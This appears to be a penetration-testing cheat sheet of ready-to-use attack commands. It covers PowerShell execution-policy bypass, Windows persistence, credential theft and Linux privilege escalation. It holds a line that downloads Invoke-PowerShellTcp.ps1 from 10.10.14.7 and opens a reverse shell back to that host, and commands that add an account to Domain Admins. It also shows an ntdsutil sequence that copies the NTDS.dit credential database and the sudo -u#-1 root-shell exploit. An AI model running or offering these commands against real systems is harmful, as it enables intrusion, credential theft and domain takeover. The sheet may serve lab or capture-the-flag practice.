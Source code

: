 ```
-   Set-ExecutionPolicy Unrestricted 
        ./file.ps1

-   Import-Module script.psm1
        Invoke-FunctionThatIsIntheModule

-   iex(new-object system.net.webclient).downloadstring(“file:///C:\examplefile.ps1”)

**Powershell.exe blocked**

-   Use ‘not powershell’
    [https://github.com/Ben0xA/nps](https://github.com/Ben0xA/nps)

**Persistence**

-   net user username "password" /ADD

-   net group "Domain Admins" %username% /DOMAIN /ADD

**Gather NTDS.dit file**

-   `ntdsutil`{.css .plain}
    `activate instance ntds`{.css .plain}
    `ifm`{.css .plain}
    `create full C:\ntdsutil`{.css .plain}
    `quit`{.css .plain}
    `quit`{.css .plain}

Invoke ps1:
-   powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.7/Invoke-PowerShellTcp.ps1');
        Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 1234

**Privilege Escalation** 
========================

**Linux:**
----------

SUID search

-   find / -user root -perm -4000 -exec ls -ldb {} \; 2>>/dev/null
-   find / -type f -perm -u=s -user (username) -ls 2> /dev/null
-   find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-   find / -perm -u=s -type f 2>/dev/null

Capabilities

-   getcap -r / 2>/dev/null

Searching what a binary can be runas:
-   find foo -exec whoami \;

SUDO

-   sudo -l
-   sudo -V if version <1.8.27
-   if verision 1.8.27 sudo -u#-1 /bin/bash
-   sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt

Find Binaries that will execute as the owner

-   find / -perm -u=s -type f 2>/dev/null
```